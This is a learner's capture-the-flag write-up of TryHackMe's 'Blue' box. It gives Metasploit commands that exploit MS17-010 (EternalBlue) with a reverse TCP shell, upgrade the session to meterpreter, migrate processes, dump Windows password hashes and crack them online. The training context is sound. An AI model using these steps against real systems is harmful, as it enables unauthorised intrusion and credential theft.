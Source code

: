 ## TryHackMe - (Eternal)Blue Methodology

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundamentals.

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Nessus and Metasploit.

### Methodology
#### Objectives/Flags
 Flag1, This flag can be found at the system root.
 Flag2, This flag can be found at the location where passwords are stored within Windows.
 Flag3, this flag can be found in an excellent location to loot.
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra ```-Pn``` into the options.
```
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are several Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```
#### Weaponization 
N/A
#### Delivery
N/A
#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and commands. After booting it up I searched for the vulnerability code ```ms17-010``` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
      set payload windows/x64/shell/reverse_tcp (This option was reccomended by the box's objective guide)
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First, I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set session 1
  run
```
A new session should spawn which I opened with ```session 2```.
#### Installation 
N/A
#### Command & Control
N/A
#### Actions on Objective
From here I verified the identity.
```
get system
  Already running as SYSTEM
shell
  whoami
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```
ps 
  migrate 692
```
According to the walkthrough Metasploit can immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful, I got to work on the flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Navigated to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
  flag3.txt
    cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerful industry tools. Fortunately, I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiar to use, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leverage its power in future exercises.
#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.
